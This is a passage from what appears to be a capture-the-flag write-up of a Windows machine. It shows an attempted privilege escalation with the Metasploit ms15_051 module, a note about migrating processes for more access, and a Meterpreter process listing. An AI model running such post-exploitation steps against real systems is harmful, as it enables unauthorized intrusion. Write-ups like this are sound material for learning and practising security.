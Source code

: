 Exploit is not working and after watching the IppSec walkthrough video, it is because we do not have enough privilege. The exploit is working but we do not have access.

The solution to this is to then migrate to another service:

```
[msf](Jobs:0 Agents:1) exploit(windows/local/ms15_051_client_copy_image) >> sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(c:\Documents and Settings) > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 272   4     smss.exe
 320   272   csrss.exe
 344   272   winlogon.exe
 392   344   services.exe
 404   344   lsass.exe
 584   392   svchost.exe
 668   392   svchost.exe
 732   392   svchost.exe
 772   392   svchost.exe
 788   392   svchost.exe
 924   392   spoolsv.exe
 952   392   msdtc.exe
 1064  392   cisvc.exe
 1112  392   svchost.exe
 1168  392   inetinfo.exe
 1204  392   svchost.exe
 1216  1064  cidaemon.exe
 1260  1064  cidaemon.exe
 1312  392   VGAuthService.exe
 1376  392   vmtoolsd.exe
 1484  392   svchost.exe
 1588  392   svchost.exe
 1672  1064  cidaemon.exe
 1768  392   dllhost.exe
 1936  392   alg.exe
 1964  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 2040  1484  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2112  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 2408  584   wmiprvse.exe
 2440  2040  rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 3068  584   davcdata.exe
 3152  1484  w3wp.exe
 3360  344   logon.scr

```
